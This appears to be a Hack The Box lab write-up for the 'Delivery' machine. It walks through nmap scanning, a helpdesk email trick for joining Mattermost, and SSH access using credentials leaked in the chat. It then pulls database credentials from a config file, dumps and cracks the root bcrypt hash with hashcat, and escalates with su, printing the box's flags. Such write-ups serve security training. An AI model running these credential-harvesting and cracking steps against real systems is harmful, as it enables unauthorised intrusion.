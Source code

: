 # HTB: Delivery

## Engagement Overview

Target: Delivery (HTB)
Box IP: 10.10.10.222
Date: 2025-09-27
Attacker Host: 10.10.14.6

---

### Methodology

- Compromise internal chat system Matter Most.
- Extract credentials and artifacts from internal chat.
- Gain initial foothold via SSH.
- Find root hashes and crack with found artifacts.
- Escalate and capture `user.txt` and `root.txt`.

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -p- -oN logs/nmap.full 10.10.10.222
```

```bash
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  http    Golang net/http server
```

### Web Discovery

- Port 80 leads us to a linked vhost `helpdesk.delivery.htb`
- Cannot sign-up due to email limitations, but ticket creation/status is available with internal email generation:


![screenshot](assets/20250927-060311.png)

- Port 8065 leads to what looks like an internal chat system.
- Requires corp email activation to sign up and login, used miss configured support center ticket system.
- Access gained.


![screenshot](assets/20250927-063509.png)

- Given the information we'll be looking for user hashes and cracking with `PleaseSubscribe!`
- Credential found: `maildeliverer:Youve_G0t_Mail!`

---

## Initial Access

Ssh in as maildeliverer and retrieved flag:

```bash
maildeliverer@Delivery:~$ cat user.txt
bb350daf736a264d361f98d26e6b0e1a
```

Found mysql creds in matter most config.json:

```bash
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

## Privilege Escalation

### Abusing Saved Credential

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
```

```mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 96
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> 
MariaDB [mattermost]> select * from Users;
---
MariaDB [mattermost]> select Username,Password from Users;

| root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Cracking hash:

```bash
cat hash.txt   
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

cat pass.list 
PleaseSubscribe!

# Cracking
hashcat -m 3200 hash.txt pass.list --user -r /usr/share/hashcat/rules/best64.rule

Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
```

Root:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat root.txt
48f92a09c818a0266078b0605cf942e7

# Cute note
root@Delivery:~# cat note.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```

## House Cleaning

- No persistence or artifacts left on target.  

## Tools Utilized

- `nmap`, `ssh` `mysql`, `hashcat`

## Key Takeaways

- Mattermost (or similar chat systems) is a high-value target for credential harvesting when internal email activation or invite flows are misconfigured or leaking tokens.
- Web vhosts and helpdesk portals often contain useful disclosure (tickets, attachments) that can reveal internal usernames, email addresses, or temporary tokens.
- Always check for credential reuse between web apps, databases, and SSH.
